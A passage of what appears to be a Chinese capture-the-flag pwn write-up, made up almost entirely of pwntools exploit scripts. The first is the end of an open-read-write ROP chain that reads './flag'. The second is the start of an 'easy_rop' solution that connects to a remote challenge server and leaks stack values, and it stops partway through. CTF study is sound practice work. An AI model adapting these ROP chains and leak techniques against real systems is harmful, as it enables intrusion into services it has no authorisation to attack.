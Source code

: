 ```
payload = p64(0x601a00)
payload+= p64(p_rdi) + p64(flag_addr)
payload+= p64(p_rdx_rsi) + p64(0) + p64(0)
payload+= p64(libcbase+libc.sym['open'])
payload+= p64(p_rdi) + p64(3)
payload+= p64(p_rdx_rsi) + p64(0x100) + p64(0x601b00)
payload+= p64(libcbase+libc.sym['read'])
payload+= p64(p_rdi) + p64(1)
payload+= p64(p_rdx_rsi) + p64(0x100) + p64(0x601b00)
payload+= p64(libcbase+libc.sym['write'])
payload+= './flag'
p.send(payload)

if attach == 1:
	gdb.attach(p)
p.interactive()
```
### easy_rop
基础rop
```
#coding:utf-8

from pwn import *

path = './easy_rop'
local = 1
attach = 0
P = ELF(path)
context(os='linux',arch='amd64',terminal=['terminator','-x','sh','-c'])
context.log_level = 'debug'

if local == 0:
	p = process(path)
	if context.arch == 'amd64':
		libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	else:
		libc = ELF('/lib/i386-linux-gnu/libc.so.6')
else:
	p = remote('139.129.76.65',50002)
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

for i in range(26):
	p.recvuntil(': ')
	p.sendline(str(0))

p.recvuntil(': ')
p.sendline('+')	
p.recvuntil(': ')
p.sendline('+')

p.recvuntil(': ')
p.sendline('+')
p.recvuntil('28 = ')
base1 = int(p.recvuntil('\n',drop=True),10)
log.success('base1 = '+hex(base1))

p.recvuntil(': ')
p.sendline('+')
p.recvuntil('29 = ')
base2 = int(p.recvuntil('\n',drop=True),10)
log.success('base2 = '+hex(base2))

```